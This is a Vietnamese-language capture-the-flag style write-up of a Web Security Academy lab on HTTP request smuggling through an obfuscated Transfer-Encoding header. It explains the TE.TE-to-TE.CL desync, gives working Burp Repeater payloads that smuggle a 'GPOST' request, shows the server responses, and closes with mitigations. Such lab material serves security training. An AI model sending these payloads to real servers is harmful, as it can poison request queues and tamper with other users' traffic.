





## Thông tin bài Lab
* **Tên bài Lab**: HTTP request smuggling, obfuscating the TE header
* **Chuyên đề**: HTTP Request Smuggling
* **Mức độ**: Practitioner
* **Mục tiêu**: Làm mờ tiêu đề Transfer-Encoding để tạo ra sự bất đồng bộ giữa Front-end và Back-end, tuồn yêu cầu khiến yêu cầu tiếp theo bị biến đổi phương thức thành `GPOST` và bị từ chối với phản hồi 403 Forbidden.

---

## 1. Kiến thức nền tảng

Lỗ hổng HTTP Request Smuggling dạng Obfuscating the TE Header (còn được định danh là biến thể TE.TE) là kỹ thuật khai thác nâng cao, áp dụng khi cả máy chủ Front-end và máy chủ Back-end đều hỗ trợ tiêu đề Transfer-Encoding theo đúng đặc tả kỹ thuật, nhưng lại có sự khác biệt trong thuật toán phân tích cú pháp khi tiêu đề này bị làm dị dạng hoặc xuất hiện trùng lặp.

### 1.1. Hành vi tiêu chuẩn theo RFC 7230
* **Quy tắc ưu tiên chuẩn mực:** Tiêu chuẩn RFC 7230 mục 3.3.3 quy định rõ ràng rằng nếu một yêu cầu HTTP/1.1 chứa đồng thời cả tiêu đề Content-Length và Transfer-Encoding, thì Transfer-Encoding bắt buộc phải được ưu tiên xử lý và Content-Length phải bị bỏ qua.
* **Tính bất khả xâm phạm ở cấu hình chuẩn:** Khi cả Front-end và Back-end cùng tuân thủ nghiêm ngặt quy tắc này, các kỹ thuật tấn công CL.TE hoặc TE.CL cơ bản sẽ hoàn toàn mất tác dụng. Khi gửi một gói tin chứa cả hai tiêu đề, cả hai máy chủ đều đọc theo `Transfer-Encoding: chunked` và phân định ranh giới gói tin đồng nhất.

### 1.2. Kỹ thuật làm dị dạng tiêu đề (Header Obfuscation)
* **Độ lệch phân tích cú pháp:** Các phần mềm máy chủ web hoặc proxy khác nhau có cách triển khai bộ phân tích cú pháp tiêu đề (HTTP Parser) không hoàn toàn giống nhau. Một số máy chủ kiểm tra chuỗi rất lỏng lẻo, trong khi một số khác lại xử lý nghiêm ngặt hoặc bỏ qua toàn bộ trường tiêu đề nếu phát hiện giá trị bất thường.
* **Các kỹ thuật làm dị dạng:** Kẻ tấn công có thể chèn các tiêu đề dị dạng nhằm đánh lừa một trong hai máy chủ không nhận ra sự tồn tại của Transfer-Encoding. Một số kỹ thuật phổ biến gồm: gửi hai tiêu đề Transfer-Encoding với giá trị khác nhau, chèn khoảng trắng trước dấu hai chấm, sử dụng ký tự tab, hoặc xuống dòng thụt lề (line wrapping).

### 1.3. Bản chất cơ chế suy biến thành TE.CL hoặc CL.TE
* **Kịch bản suy biến TE.CL:** Nếu Front-end vẫn nhận diện được `Transfer-Encoding: chunked` (ví dụ nhận tiêu đề hợp lệ đầu tiên) và xử lý phân đoạn gói tin theo chunked, nhưng Back-end gặp tiêu đề dị dạng thứ hai nên bỏ qua toàn bộ thuộc tính chunked và lùi về sử dụng Content-Length, hệ thống sẽ lập tức suy biến thành kịch bản bất đồng bộ TE.CL.
* **Kịch bản suy biến CL.TE:** Ngược lại, nếu Front-end không nhận diện được tiêu đề dị dạng và xử lý theo Content-Length, trong khi Back-end vẫn đọc được chunked, hệ thống sẽ suy biến thành kịch bản bất đồng bộ CL.TE.

---

## 2. Mô hình tấn công

Trong bài thực hành này, hệ thống mục tiêu suy biến thành mô hình bất đồng bộ TE.CL thông qua kỹ thuật gửi trùng lặp tiêu đề Transfer-Encoding với giá trị dị dạng.

```text
[Attacker]
    │
    │ Gửi yêu cầu chứa:
    │ Content-Length: 4
    │ Transfer-Encoding: chunked
    │ Transfer-Encoding: tu4nki3t
    │ (Thân chứa chunk 5a bao bọc GPOST)
    ▼
[Front-end Server]
    │ Nhận diện Transfer-Encoding: chunked đầu tiên
    │ Đọc toàn bộ khối 5a và khối kết thúc 0\r\n\r\n
    │ Chuyển tiếp toàn bộ sang Back-end trên kết nối TCP dùng chung
    ▼
[Back-end Server]
    │ Gặp Transfer-Encoding: tu4nki3t -> Không hiểu, bỏ qua TE
    │ Lùi về sử dụng Content-Length: 4
    │ Chỉ đọc đúng 4 byte đầu ('5a\r\n') làm thân yêu cầu 1 -> Trả về 200 OK
    │ Toàn bộ phần thân còn lại (GPOST / HTTP/1.1...) kẹt lại trong bộ đệm socket
    ▼
[Yêu cầu tiếp theo từ máy khách]
    │ Đi vào cùng kết nối TCP
    │ Back-end đọc dữ liệu bộ đệm trước: Chuỗi GPOST trở thành đầu yêu cầu mới
    ▼
[Back-end phản hồi 403 Forbidden - "Unrecognized method GPOST"]
```

### 2.1. Luồng dữ liệu tấn công
1. **Bước 1 - Gửi gói tin làm dị dạng tiêu đề:** Kẻ tấn công gửi yêu cầu HTTP POST chứa `Content-Length: 4` cùng hai tiêu đề Transfer-Encoding liên tiếp: tiêu đề thứ nhất mang giá trị `chunked` chuẩn, tiêu đề thứ hai mang giá trị dị dạng không xác định (`tu4nki3t`). Phần thân chứa chunk `5a` bao bọc yêu cầu tuồn `GPOST` và kết thúc bằng khối `0\r\n\r\n`.
2. **Bước 2 - Front-end xử lý theo chunked:** Front-end nhận diện tiêu đề `Transfer-Encoding: chunked` đầu tiên, xác nhận yêu cầu sử dụng định dạng đóng gói theo khối và đọc toàn bộ phần thân cho đến khối kết thúc `0`, sau đó chuyển tiếp toàn bộ sang Back-end trên kết nối TCP dùng chung.
3. **Bước 3 - Back-end lùi về xử lý Content-Length:** Back-end tiếp nhận gói tin nhưng gặp xung đột hoặc không phân giải được tiêu đề `Transfer-Encoding: tu4nki3t`, dẫn đến việc bỏ qua hoàn toàn cơ chế chunked và lùi về xử lý theo `Content-Length: 4`.
4. **Bước 4 - Tồn đọng yêu cầu tuồn trong bộ đệm:** Back-end chỉ đọc đúng 4 byte đầu tiên của phần thân (`5a\r\n`), xác nhận yêu cầu thứ nhất đã kết thúc và phản hồi mã 200 OK. Toàn bộ phần dữ liệu còn lại bắt đầu từ dòng `GPOST / HTTP/1.1` bị kẹt lại trong bộ đệm tiếp nhận của socket kết nối TCP.
5. **Bước 5 - Kích hoạt yêu cầu bị tuồn:** Khi có một yêu cầu HTTP tiếp theo đi vào kết nối TCP này, Back-end đọc dữ liệu bộ đệm trước, biến chuỗi `GPOST` thành phương thức của yêu cầu mới và phản hồi mã lỗi 403 Forbidden kèm thông báo `Unrecognized method GPOST`.

### 2.2. Nguyên nhân cốt lõi và điều kiện phát sinh lỗ hổng
* **Không nhất quán trong phân tích tiêu đề:** Có sự không nhất quán giữa hai bộ phân tích cú pháp HTTP khi xử lý trường hợp có nhiều tiêu đề Transfer-Encoding cùng xuất hiện trong một thông điệp.
* **Cơ chế lùi về thiếu an toàn:** Back-end lùi về sử dụng tiêu đề Content-Length khi gặp tiêu đề Transfer-Encoding dị dạng thay vì từ chối yêu cầu ngay lập tức với mã lỗi 400 Bad Request.
* **Thiếu chuẩn hóa tại tầng tiếp nhận:** Front-end không chuẩn hóa tiêu đề và không loại bỏ các giá trị không hợp lệ trước khi chuyển tiếp gói tin qua kết nối TCP nội bộ dùng chung.

---

## 3. Khai thác lỗ hổng

Quá trình thực nghiệm tấn công trên Burp Suite Repeater được triển khai qua ba giai đoạn: Kiểm chứng hành vi chuẩn của hệ thống, Thăm dò kỹ thuật làm dị dạng tiêu đề, và Thực thi tuồn yêu cầu GPOST.

> [!NOTE]
> **Lưu ý cấu hình giao thức trong Burp Repeater:**
> Kỹ thuật khai thác bất đồng bộ TE.TE đòi hỏi thao tác trực tiếp với các trường tiêu đề văn bản thuần của HTTP/1.1. Trong Burp Suite Repeater, hãy đảm bảo giao thức đã được chuyển đổi sang `HTTP/1.1` tại mục **Request attributes** trong bảng điều khiển **Inspector**, đồng thời bỏ chọn tính năng **Update Content-Length** trong menu của Repeater để kiểm soát chính xác độ dài byte được gửi đi.

### 3.1. Kiểm chứng hành vi mặc định của Front-end và Back-end
Gửi một yêu cầu POST chứa đồng thời cả hai tiêu đề chuẩn `Content-Length: 3` và `Transfer-Encoding: chunked`:

```http
POST / HTTP/1.1
Host: 0aa9009c0476810a868f11b000b1009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

1
A
0

```

Phân tích kết quả:
* **Giả định theo Content-Length:** Nếu máy chủ xử lý theo `Content-Length: 3`, nó chỉ đọc đúng chuỗi `1\r\n` (3 byte) và bỏ lại `A\r\n0\r\n\r\n`, gây lỗi hoặc bất đồng bộ trên yêu cầu sau.
* **Hành vi thực tế:** Thực tế máy chủ phản hồi ngay lập tức `HTTP/1.1 200 OK` và các yêu cầu kế tiếp không bị ảnh hưởng. Điều này chứng minh cả Front-end và Back-end mặc định đều tuân thủ RFC 7230, ưu tiên Transfer-Encoding và bỏ qua Content-Length. Do đó các kỹ thuật CL.TE hoặc TE.CL cơ bản không thể khai thác trực tiếp.



### 3.2. Thăm dò độ lệch phân tích bằng tiêu đề dị dạng
Tiến hành làm dị dạng tiêu đề bằng cách thêm một tiêu đề Transfer-Encoding thứ hai mang giá trị tùy biến không hợp lệ để kiểm tra phản ứng của hệ thống:

```http
POST / HTTP/1.1
Host: 0aa9009c0476810a868f11b000b1009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked
Transfer-Encoding: tu4nki3t

1
A
0

```

Gửi yêu cầu lần thứ nhất nhận mã 200 OK. Khi gửi tiếp yêu cầu thứ hai trên cùng kết nối, Back-end lập tức phản hồi mã trạng thái 403 Forbidden:

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 28

"Unrecognized method A0POST"
```

Phân tích hiện tượng: Do có tiêu đề `Transfer-Encoding: tu4nki3t`, Back-end không nhận diện được cơ chế chunked và lùi về sử dụng `Content-Length: 3`. Back-end chỉ đọc đúng 3 byte `1\r\n`, để lại chuỗi `A\r\n0\r\n\r\n` trong bộ đệm. Yêu cầu POST kế tiếp bị ghép thành `A0POST / HTTP/1.1`. Hiện tượng này khẳng định hệ thống đã bị ép suy biến thành lỗ hổng TE.CL.



### 3.3. Xây dựng tải trọng và tuồn yêu cầu GPOST
Sau khi xác định được độ lệch phân tích, tiến hành cấu hình tải trọng khai thác hoàn chỉnh để tuồn một yêu cầu GPOST vào bộ đệm của Back-end:

```http
POST / HTTP/1.1
Host: 0aa9009c0476810a868f11b000b1009e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: tu4nki3t

5a
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

A
0

```

Phân tích cấu trúc tải trọng:
* **Phía Front-end:** Front-end đọc khối chunk `5a` (90 byte) và khối kết thúc `0`, chuyển tiếp toàn bộ gói tin.
* **Phía Back-end:** Back-end lùi về sử dụng `Content-Length: 4`, chỉ đọc chuỗi `5a\r\n` và hoàn tất yêu cầu thứ nhất. Toàn bộ phần thân bắt đầu từ dòng `GPOST / HTTP/1.1` nằm lại trong bộ đệm socket TCP.

Gửi gói tin khai thác lần thứ nhất, máy chủ trả về mã `HTTP/1.1 200 OK`.



### 3.4. Kích hoạt lỗi và ghi nhận kết quả hoàn thành
Nhấn `Send` gửi yêu cầu thứ hai trên cùng kết nối. Back-end lấy dữ liệu tồn đọng trong bộ đệm, nhận diện phương thức GPOST và trả về mã lỗi 403 Forbidden:

```http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```



Hệ thống của Web Security Academy ghi nhận yêu cầu GPOST thành công và thông báo hoàn thành bài thực hành.



---

## 4. Biện pháp khắc phục

Để ngăn chặn triệt để các kỹ thuật làm dị dạng tiêu đề dẫn tới bất đồng bộ phân ranh giới thông điệp, các biện pháp kỹ thuật sau cần được triển khai đồng bộ:

### 4.1. Chuyển đổi toàn diện sang giao thức HTTP/2
* **Đóng khung nhị phân:** Triển khai giao thức HTTP/2 xuyên suốt từ máy khách tới Front-end và từ Front-end tới Back-end. HTTP/2 sử dụng cơ chế đóng khung dữ liệu nhị phân với chiều dài xác định trong từng frame, loại bỏ hoàn toàn việc phân tích chuỗi văn bản Content-Length hay Transfer-Encoding.
* **Kiểm soát giáng cấp giao thức:** Nếu Front-end phải chuyển đổi HTTP/2 sang HTTP/1.1 khi giao tiếp với Back-end, bộ chuyển đổi phải kiểm tra nghiêm ngặt và hủy bỏ các gói tin chứa cấu trúc tiêu đề dị dạng.

### 4.2. Chuẩn hóa tiêu đề và xử lý nghiêm ngặt tại Front-end
* **Xác thực tiêu đề nghiêm ngặt:** Cấu hình Front-end từ chối ngay lập tức (mã lỗi 400 Bad Request) mọi yêu cầu chứa nhiều tiêu đề Transfer-Encoding, tiêu đề chứa giá trị không hợp lệ, hoặc chứa các ký tự định dạng bất thường như khoảng trắng trước dấu hai chấm, ký tự tab.
* **Chuẩn hóa trước khi chuyển tiếp:** Chuẩn hóa thông điệp thành một tiêu đề Content-Length duy nhất trước khi chuyển tiếp về Back-end, loại bỏ toàn bộ các tiêu đề Transfer-Encoding không đạt chuẩn.

### 4.3. Cấu hình an toàn tại máy chủ Back-end
* **Tuyệt đối không tự ý lùi về Content-Length:** Cấu hình Back-end không tự ý lùi về sử dụng Content-Length khi gặp tiêu đề Transfer-Encoding không nhận diện được. Nếu gặp lỗi phân tích cú pháp, Back-end bắt buộc phải từ chối yêu cầu với mã lỗi 400 Bad Request.
* **Cô lập kết nối nội bộ:** Vô hiệu hóa tính năng tái sử dụng kết nối TCP giữa Front-end và Back-end hoặc cô lập kết nối theo từng phiên người dùng riêng biệt nhằm ngăn chặn việc dữ liệu tồn đọng trong bộ đệm bị ghép vào yêu cầu của người dùng khác.
